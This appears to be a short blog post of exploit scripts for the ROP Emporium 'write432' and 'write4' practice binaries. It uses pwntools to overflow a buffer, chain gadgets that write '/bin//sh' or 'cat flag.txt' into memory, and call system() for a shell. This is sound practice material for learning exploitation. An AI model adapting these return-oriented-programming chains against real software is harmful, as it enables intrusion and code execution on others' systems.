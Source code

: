 ```yaml
---
layout: post
published: true
title: ROP Emporium
---
```

{% highlight python linenos %}
#completed
from pwn import *

p = process('./write432')
elf = ELF('./write432')
rop = ROP(elf)

pop_edi_ebp = (rop.find_gadget(['pop edi', 'pop ebp', 'ret']))[0]
usefulGadget = 0x08048670 #mov [edi], ebp
data = 0x0804a028
SYSTEM = elf.symbols['system']
padding = 'a'*44

#Cach 1:
#payload 1: add "/bin" vao truoc
payload1 = padding + p32(pop_edi_ebp) + p32(data) + '/bin' + p32(usefulGadget)
#payload 2: add "//sh" vao sau
payload2 = p32(pop_edi_ebp) + p32(data+4) + '//sh' + p32(usefulGadget)
payload = payload1 + payload2 + p32(SYSTEM) + '1234'+ p32(data)

#Cach 2:
#payload1 = padding + p32(pop_edi_ebp) + p32(data) + 'cat ' + p32(usefulGadget)
#payload2 = p32(pop_edi_ebp) + p32(data+4) + 'flag' + p32(usefulGadget)
#payload3 = p32(pop_edi_ebp) + p32(data+8) + '.txt' + p32(usefulGadget)
#payload = payload1 + payload2 + payload3 + p32(SYSTEM) + '1234'+ p32(data)
#print p.recvall()

p.sendline(payload)
p.interactive()
{% endhighlight %}

{% highlight python linenos %}

{% endhighlight %}




{% highlight python linenos %}
#Completed
from pwn import *

p = process('./write4')
elf = ELF('./write4')
rop = ROP(elf)

pop_r14_r15 = (rop.find_gadget(['pop r14','pop r15', 'ret']))[0]
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
usefulGadget = elf.symbols['usefulGadgets']
SYSTEM = elf.symbols['system']
data_addr = 0x0000000000601050
padding = 'a'*40 

payload = padding + p64(pop_r14_r15) + p64(data_addr) + '/bin//sh' + p64(usefulGadget) + p64(pop_rdi) + p64(data_addr) + p64(SYSTEM) 

p.sendline(payload)
p.interactive()
{% endhighlight %}

{% highlight python linenos %}
from pwn import *

p = process('./write4')
elf = ELF('./write4')
rop = ROP(elf)

pop_r14_r15 = (rop.find_gadget(['pop r14','pop r15', 'ret']))[0]
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
usefulGadget = elf.symbols['usefulGadgets']
SYSTEM = elf.symbols['system']
data_addr = 0x0000000000601050
padding = 'a'*40 

payload = padding + p64(pop_r14_r15) + p64(data_addr) + '/bin//sh' + p64(usefulGadget) + p64(pop_rdi) + p64(data_addr) + p64(SYSTEM)
#payload += p64(pop_r14_r15) + p64(data_addr+8) + '.txt\x00\x00\x00\x00' + p64(usefulGadget) + p64(pop_rdi) + p64(data_addr) + p64(SYSTEM) 
p.sendline(payload)
#print p.recvall()
p.interactive()
{% endhighlight %}
